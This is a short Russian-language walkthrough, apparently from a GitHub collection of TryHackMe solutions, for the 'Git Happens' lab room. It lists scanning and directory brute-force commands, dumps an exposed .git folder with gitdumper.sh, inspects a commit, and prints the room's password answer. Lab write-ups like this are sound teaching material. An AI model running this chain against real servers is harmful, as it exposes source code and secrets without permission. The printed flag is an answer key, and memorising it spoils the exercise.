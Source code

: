 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Git Happens](https://tryhackme.com/r/room/githappens) 

Всего 1 заданиe:
## Задание 1
Можете ли вы найти пароль к приложению?
### Ответьте на вопросы ниже
Найдите суперсекретный пароль
```commandline
nmap -sSV -sC <IP>
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt 
http://<IP>:80/.git
./gitdumper.sh http://<IP>/.git/ /data/Git_Happens/files/
git log
git show 395e087334d613d5e423cdf8f7be27196a360459

```
```commandline
Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)